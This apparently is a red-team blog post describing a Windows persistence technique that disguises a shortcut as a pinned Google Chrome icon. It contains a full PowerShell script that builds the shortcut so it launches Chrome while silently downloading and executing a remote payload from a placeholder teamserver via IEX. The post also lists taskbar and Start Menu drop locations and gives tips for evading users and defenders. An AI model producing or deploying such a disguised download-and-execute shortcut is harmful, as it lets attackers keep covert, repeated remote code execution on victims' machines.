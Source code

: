 ```yaml
---
layout: post
title: Sticky LNKz
date: 2017-08-15
excerpt: "A post about User-Driven persistence using common taskbar and startmenu shortcuts"
tags: [persistence, redteam, cradles, payloads]
comments: false
---
```

# Intro
As a user in a corporate environment, what is one of the first things you do? After you get some coffee and have a chat with your co-workers about the latest news or some semi-personal event from the night before.. you log in. A good blue team will be looking to make sure when you log in there isn't some type of malware set up with persistence to run before you even hear that catchy windows logon tune. With programs like <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns" title="autoruns">**autoruns**</a> and well crafted detection methods from just about every security vendor, it is very likely a redteamer will get caught trying to drop persistence in the known and obvious locations.

## Disclaimer
As I introduce this concept, I apologize if anyone has already explored this method and might think I am blatantly plagurizing their work, I swear it is not my style. 

## User-Drive Persistence
**Subj: "bSpence love his shells"**
I've seen several different methods of persistence that redteamers (and blackhats) often use to repop a shell on a device that gets shutdown everyday and rebooted the next morning. Senspost's <a href="https://www.twitter.com/_staaldraad">@_staaldraad</a> has a handy tool I was introduced to at Blackhat called <a href="https://github.com/sensepost/ruler">**"Ruler"**</a>. The original concept was once you had credz you could set up an outlook rule to pop a shell whenever needed by sending a triggered email that would delete itself and run a payload via an external webdev share. Genius!

One of the major limitations to this type of persistence is that you have to rely on some user interaction to generate your trigger and get the shell (ie. the user has to start an application). However, if you pick an application like Outlook or other commonly used standard applications, this can be a nice way to hide your shell popping payloads in plain sight, hidden from the user, and even better, hidden from the blue team.

I recently had an engagement with @SpecterOps in which @bluscreenofjeff and @enigma0x3 introduced to me some tradecraft payload cradles in which they use .LNK and .HTA files as links in their phishing emails to get initial breach shells. I don't like to name drop, but I'd be kind of a jerk without mentioning someone like @SubTee who's been the cradle Jedi master for a year or two now. Anyways, after playing with the cradles and thinking about how my blue team might react something slapped me in the face as I looked at the taskbar.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"></a>
</figure>
Ex: "My Current Taskbar Situation"
{: .mycenter}
## Introducing Sticky LNKz
The epiphany I had was that users often customize their user experience by creating Start Menu and Taskbar shortcuts to execute their favorited applications. The other thing users do is create desktop shortcuts, but I will talk about why the Start Menu and Taskbar are much more covert friendly. These shortcuts get saved on the filesystem as .LNK files since that is essentially what a shortcut is, a link to an executable.

## The Payload
Credit to @enigma0x3 for the original powershell LNK generation, below I've added a few things to retrofit this script for taskbar/startmenu usage. In the example below we will be using Google Chrome as a shortcut. Keep in mind this is post-exploitation work to establish User-Based Persistence.
{% highlight html %}
$LNKName = "C:\Users\<YOUR_USER>\Desktop\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
Here is what it looks like:
{: .mycenter}
<figure> 
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/google_lnkz.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/google_lnkz.png"></a>
</figure>
Ex: "Google Chrome.lnk"
{: .mycenter}
## Snippet Step-by-Step
The LNKName identifies the save location of the lnk you're generating. You want this to be named exactly like the a taskbar or start menu lnk might look. The BinaryPath establishes powershell.exe as the executable to run instead of the path to chrome.exe
{% highlight html %}
$LNKName = "C:\<DESIRED_LOCATION>\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
{% endhighlight %}
The first part of the command execution here is to start chrome.exe so the user gets an actual chrome popup and doesn't get suspicious that their shortcut didn't start as intended. This can be tricky and works depending on $PATH, but I've noticed putting the full path to the binary usually craps out the script. The second piece is your standard arguments to start a proxy aware shell using a CobaltStrike powershell web drive-by script that you've already hosted on your teamserver.
{% highlight html %}
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
{% endhighlight %}
The following are required to create the lnk and populate it with the information you've already defined.
{% highlight html %}
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
{% endhighlight %}
The IconLocation here is essential to our .lnk remaining covert and not tipping off the user. Notice after the full path the ", 0". This tells the lnk to take the first icon populated in the chrome.exe binary. You can explore this manually by creating shortcuts and changing the icons, but I've pretty much seen 0 as the common choice. 
{% highlight html %}
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
Here is what browsing to chrome.exe for an icon selection looks like:
{: .mycenter}
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/icon_path.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/icon_path.png"></a>
</figure> 
Ex: "Icons for Chrome.exe"
{: .mycenter}
## Save Location
You really have two options when generating the link. Locally on your lab machine and then uploading it to the below locations on the filesystem, or be bold and upload it directly to the compromised host in the start menu or taskbar locations.
## Task Bar
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar
{% endhighlight %}
## Start Menu
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Windows\Start Menu
{% endhighlight %}
## Why No Desktop Love?
As I indicated before you *could* generate a lnk and put it on the user's desktop, but there is some OPSEC considerations that tip off the user. When hovering over the Desktop shortcut the "Location:<PATH_TO_EXECUTABLE>" is shown on hover. This will get you busted pretty quick if the user is paying attention. The taskbar and startmenu location for some reason do not have the same hovers, so the user will not really be tipped off unless he goes exploring the file locations above.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/location_hover.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/location_hover.png"></a>
</figure> 
Ex: "Location: powershell"
{: .mycenter} 
## To-Do's
I'd really like to eventually have the time to put this in a Cobaltstrike Aggressor script. I've already started a preliminary script, but I've been a bit stuck on how to approach it. I figured I could use some common shortcut types like Google, IE, Outlook, etc.. but having aggressor tie it to a hosted payload has given me some problems. I know it can be done, but I just haven't had the time to dig into it.
The other nice feature I might do is create a powershell script with to generate a lnk of your choice, but again, this is on my list of things to do.

## Summary
There are many ways to establish persistence and while the most desired persistence is automated without user intervention sometimes you have to use covert methods like I outlined in this post. I realize it isn't the most sophisticated, but in a pinch it is handy tradecraft like this that might get you out of a bind if defenders start to crack down on known persistence locations. With a little situational awareness and some well placed .lnk's you might be able to sneak by even the best defenders.

If anyone has any comment or feedback regarding this post please look me up on twitter @bSpence7337. Thanks!
